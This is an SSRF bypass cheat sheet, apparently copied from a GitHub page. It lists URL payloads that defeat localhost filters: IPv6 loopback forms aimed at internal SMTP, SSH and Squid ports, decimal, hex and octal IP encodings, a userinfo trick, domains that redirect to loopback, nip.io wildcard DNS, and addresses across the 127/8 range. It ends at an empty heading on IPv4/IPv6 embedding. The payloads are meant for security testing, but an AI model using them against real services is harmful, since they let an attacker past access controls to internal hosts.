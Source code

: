 ```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
http://127.1/
http://0000::1:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

### **Bypass localhost with a domain redirecting to localhost** ###

```
https://xyz.com --->> 127.0.0.1
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost

Other way 
use https://nip.io/
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, 
even 127.0.0.1.nip.io maps to 127.0.0.1
Like
http://customer1.app.localhost.my.company.127.0.0.1.nip.io will point to 127.0.0.1        
```

### **Bypass using a decimal IP location** ###

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

### **Bypass localhost with CIDR** ###

```
It's a /8

http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### **Bypass using IPv6/IPv4 Address Embedding** ###
